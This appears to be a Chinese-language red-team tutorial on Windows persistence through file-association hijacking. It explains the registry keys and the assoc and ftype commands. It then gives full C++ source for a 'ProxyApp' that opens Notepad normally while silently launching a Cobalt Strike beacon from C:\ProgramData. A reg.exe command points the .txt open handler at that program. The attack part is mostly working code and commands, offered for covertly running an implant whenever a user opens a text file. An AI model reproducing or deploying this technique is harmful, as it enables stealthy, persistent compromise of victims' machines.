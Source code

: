 ## Change Default File Association
### 原理

Windows中，每个文件扩展名都与一个默认程序关联，关联通过注册表实现

用户试图打开文件时，先在HKEY_USERS查找是否存在扩展名注册表项；如果没有，再到HKEY_CLASSES_ROOT查找

```cmd
# Global
HKEY_CLASSES_ROOT

# Local
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\FileExts
```

### assoc

显示或修改文件扩展名关联。 如果不带参数使用，assoc 将显示所有当前文件扩展名关联的列表

```cmd
# 此命令仅在 cmd.exe 中受支持，在 PowerShell 中不可用。 不过，你可以使用 cmd /c assoc 作为解决方法
assoc [<.[ext]>[=[<filetype>]]]
```

查看文件扩展名 .txt 的当前文件类型关联

```cmd
assoc .txt
```

要删除文件扩展名 .bak 的文件类型关联

```cmd
# 请确保在等号后添加空格
assoc .bak=
```

### ftype

显示或修改文件扩展名关联中使用的文件类型

```cmd
ftype [<filetype>[=[<opencommandstring>]]]
```

显示 txtfile 文件类型的当前打开命令字符串

```cmd
ftype txtfile
```

删除名为 example 的文件类型的打开命令字符串

```cmd
ftype example=
```

## 优雅的方法

使用`ProxyAPP`劫持对应的程序，使Beacon上线过程中达到无感

> 编译环境：Visual Studio 2022
>
> 字符集：Unicode
>
> 权限：需要管理员权限修改注册表

### main.cpp

```c
#include <stdio.h>
#include <Windows.h>
#include <psapi.h>

#include <string>

HANDLE create_new_process(IN const char* path, IN const char* cmd)
{
    STARTUPINFOA si;
    memset(&si, 0, sizeof(STARTUPINFO));
    si.cb = sizeof(STARTUPINFO);
    si.wShowWindow = 0;

    PROCESS_INFORMATION pi;
    memset(&pi, 0, sizeof(PROCESS_INFORMATION));
    
    if (!CreateProcessA(
        path,
        (LPSTR) cmd,
        NULL, //lpProcessAttributes
        NULL, //lpThreadAttributes
        FALSE, //bInheritHandles
        DETACHED_PROCESS  | CREATE_NO_WINDOW,
        NULL, //lpEnvironment 
        NULL, //lpCurrentDirectory
        &si, //lpStartupInfo
        &pi //lpProcessInformation
    ))
    {
        return NULL;
    }
    return pi.hProcess;
}

void deploy_payload()
{
    char full_path[MAX_PATH] = { 0 };
    char calc_path[] = "C:\\ProgramData\\beacon.exe";
    // ExpandEnvironmentStringsW(LPCWSTR(calc_path), LPWSTR(full_path), MAX_PATH);
    ExpandEnvironmentStringsA(calc_path, full_path, MAX_PATH);
    create_new_process(full_path, NULL);
}

int main(int argc, char *argv[])
{
    std::string merged_args;
    if (argc >= 2) {
        for (int i = 1; i < argc; i++) {
            merged_args += std::string(argv[i]) + " ";
        }
        create_new_process(NULL, merged_args.c_str());
    }

    deploy_payload();
    return 0;
}
```

### 修改注册表

```cmd
HKEY_CLASSES_ROOT\txtfile\shell\open\command

# 修改注册表的值
C:\ProgramData\ProxyApp.exe %SystemRoot%\system32\NOTEPAD.EXE %1

# 命令
reg.exe add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /d "C:\ProgramData\ProxyApp.exe %SystemRoot%\system32\NOTEPAD.EXE %1" /f
```

